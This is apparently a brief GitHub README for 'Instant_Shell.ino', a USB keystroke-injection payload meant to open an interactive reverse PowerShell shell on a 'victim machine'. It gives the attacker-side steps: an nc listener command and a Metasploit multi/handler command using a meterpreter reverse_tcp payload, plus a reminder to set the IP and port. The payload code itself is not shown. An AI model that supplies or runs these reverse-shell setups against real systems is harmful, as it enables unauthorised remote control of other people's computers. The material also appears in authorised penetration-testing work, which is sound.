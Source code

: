 # Instant Shell

### Description:

#### 1: Instant_Shell.ino:<br>

Get instant interactive reverse powershell shell in less than a minute and send commands remotely to victim machine. Interactive reverse Powershell shell script from [Nikhil SamratAshok Mittal](http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html)

**Instructions:**
Start an nc listener or metasploit listener. Be sure to change IP and Port. Adjust script delay which suits best to your computer.

```
nc -lvnp 4444
```

```
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost <IP_ADDRESS>; set lport 4444; set ExitOnSession false; exploit -j"
```
